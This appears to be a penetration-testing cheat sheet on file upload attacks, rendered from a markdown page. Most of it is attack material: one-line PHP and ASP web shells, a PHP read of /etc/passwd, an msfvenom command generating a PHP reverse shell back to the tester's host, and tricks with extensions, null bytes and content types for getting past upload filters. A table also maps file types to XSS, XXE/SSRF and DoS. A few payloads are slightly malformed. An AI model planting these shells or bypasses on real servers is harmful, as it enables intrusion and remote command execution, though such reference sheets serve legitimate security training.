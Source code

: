 # File Uploads Attacks

## **Web Shells**

| **Web Shell**                                                                           | **Description**                                   |
| --------------------------------------------------------------------------------------- | ------------------------------------------------- |
| `<?php file_get_contents('/etc/passwd'); ?>`                                            | Basic PHP File Read                               |
| `<?php system('hostname'); ?>`                                                          | Basic PHP Command Execution                       |
| `<?php system($_REQUEST['cmd']); ?>`                                                    | Basic PHP Web Shell                               |
| `<eval request('cmd) %>`                                                                | Basic ASP Web Shell                               |
| `msfvenom-p php/reverse_php LHOST=OUR_IP LPORT OUR_PORT -f raw > reverse.php`           | Generate PHP reverse shell                        |
| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                     | PHP Web Shell                                     |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)                 | PHP Reverse Shell                                 |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells<sup>1</sup> |

## **Bypasses**

| **Command**                                                                                                             | **Description**                              |
| ----------------------------------------------------------------------------------------------------------------------- | -------------------------------------------- |
| Client-Side Bypass                                                                                                      |                                              |
| `[CTRL+SHIFT+C]`                                                                                                        | Toggle Page Inspector                        |
| Blacklist Bypass                                                                                                        |                                              |
| `shell.phtml`                                                                                                           | Uncommon Extension                           |
| `shell.pHp`                                                                                                             | Case Manipulation                            |
| PHP Extensions                                                                                                          | List of PHP Extensions                       |
| ASP Extensions                                                                                                          | List of ASP Extensions                       |
| Web Extensions                                                                                                          | List of Web Extensions                       |
| Whitelist Bypass                                                                                                        |                                              |
| `shell.jpg.php`                                                                                                         | Double Extension                             |
| `shell.php.jpg`                                                                                                         | Reverse Double Extension                     |
| `%20, %0a, %00, %0d0a, /,`                                                                                              | Character Injection - Before/After Extension |
| Content/Type Bypass                                                                                                     |                                              |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)          | List of Web Content-Types                    |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types                    |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)                                                | List of File Signatures/Magic Bytes          |

## **Limited Uploads**

| **Potential Attack** | **File Types**          |
| -------------------- | ----------------------- |
| XSS                  | HTML, JS, SVG, GIF      |
| XXE/SSRF             | XML, SVG, PDF, PPT, DOC |
| DoS                  | ZIP, JPG, PNG           |
